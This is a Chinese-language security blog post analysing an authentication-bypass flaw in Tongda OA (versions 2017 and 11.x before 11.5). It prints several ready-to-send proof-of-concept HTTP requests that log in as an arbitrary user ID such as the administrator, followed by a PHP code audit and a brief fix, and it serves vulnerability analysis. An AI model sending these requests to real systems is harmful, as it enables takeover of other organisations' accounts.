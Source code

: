 ```yaml
---
layout: post
title:  "通达OA越权登录漏洞分析"
categories: 代码审计
tags: PHP代码审计 TongDaOA
author: 0e0w
---
```


* content
{:toc}
这是一篇关于通达OA越权登录漏洞的分析文章。由于作者能力有限，文中难免会出现一些错误，请谅解。本文会不定期更新，最近一次更新时间为2020年6月2日。
> 关于通达OA的更多信息，请查看通达OA[官网](http://www.tongda2000.com/)。

## 0x01 漏洞概述

2020年4月中旬的时候，通达OA发布了11.5新版本。国内安全研究人员通过代码比对，发现了此漏洞。此漏洞可以越权登录任意用户账号，影响极大。

漏洞成因是由于前台登陆时未作权限验证，程序开启全局覆盖，可以直接覆盖 _SESSION 里的数据造成任意用户登陆。 服务端只取了UID来做用户身份鉴别，由于UID是整型递增ID，从而导致可以登录指定UID用户。

## 0x02 漏洞分析

- 影响版本：通达OA2017、V11.X<V11.5
- 发现时间：2020-04-01

### 一、Payload

先上payload。

11.4版poc1：

```
GET /general/login_code.php HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```

```
GET /ispirit/login_code.php HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```

11.4版poc2:

> POST /logincheck_code.php HTTP/1.1
> Host: 192.168.220.129
> User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)
> Accept-Encoding: gzip, deflate
> Accept: */*
> Connection: close
> Content-Length: 56
> Content-Type: application/x-www-form-urlencoded
>
> CODEUID=%7BF1643A67-D96F-BB39-E350-AED1A70E5FB9%7D&UID=1

2017版poc1：

> GET /ispirit/login_code.php HTTP/1.1
> Host: 192.168.220.129
> User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)
> Accept-Encoding: gzip, deflate
> Accept: */*
> Connection: close

2017版poc2：

> POST //general/login_code_scan.php HTTP/1.1
> Host: 192.168.220.129
> User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)
> Accept-Encoding: gzip, deflate
> Accept: */*
> Connection: close
> Content-Length: 94
> Content-Type: application/x-www-form-urlencoded
>
> codeuid=%7B000EB6B8-3595-474D-F673-6BD8B187388D%7D&uid=1&source=pc&type=confirm&username=admin

2017版poc3：

> GET //ispirit/login_code_check.php?codeuid=%7B000EB6B8-3595-474D-F673-6BD8B187388D%7D HTTP/1.1
> Host: 192.168.220.129
> User-Agent: python-requests/2.22.0
> Accept-Encoding: gzip, deflate
> Accept: */*
> Connection: close

### 二、代码审计

- /logincheck_code.php:11-18行。UID通过post传参。如果CODEUID存在，则不会exit。

  ```php
  $redis = TRedis::redis();
  $UID = intval($_POST["UID"]);
  $CODEUID = $_POST["CODEUID"];
  $login_codeuid = TD::get_cache("CODE_LOGIN" . $CODEUID);
  if (!isset($login_codeuid) || empty($login_codeuid)) {
  	$databack = array("status" => 0, "msg" => _("参数错误！"), "url" => "general/index.php?isIE=0");
  	echo json_encode(td_iconv($databack, MYOA_CHARSET, "utf-8"));
  	exit();
  ```

- /logincheck_code.php:180行。UID用户可控。CODEUID用户可控。

  ```php
  $LOGIN_UID = $UID;
  $LOGIN_USER_ID = $USER_ID;
  $LOGIN_BYNAME = $BYNAME;
  $LOGIN_USER_NAME = $USERNAME;
  $LOGIN_ANOTHER = "0";
  $LOGIN_USER_PRIV_OTHER = $USER_PRIV_OTHER;
  $LOGIN_DEPT_ID_JUNIOR = GetUnionSetOfChildDeptId($LOGIN_DEPT_ID . "," . $LOGIN_DEPT_ID_OTHER);
  $LOGIN_CLIENT = 0;
  $_SESSION["LOGIN_UID"] = $LOGIN_UID;
  $_SESSION["LOGIN_USER_ID"] = $LOGIN_USER_ID;
  ```

- /logincheck_code.php:164行。通过UID的值去数据库里面去取值，

  > $UID -> $query1 -> $cursor1 -> $row

  ```php
  $LOGIN_FUNC_STR = "";
  $query1 = "select user_func_id_str from user_function where uid='$UID'";
  $cursor1 = exequery(TD::conn(), $query1);
  
  if ($row = mysql_fetch_array($cursor1)) {
  	$LOGIN_FUNC_STR = $row["user_
  ```

### 三、漏洞修复

不要通过用户可控的UID作为权限校验的方法。

## 0x03 参考链接

- http://www.0e0w.com
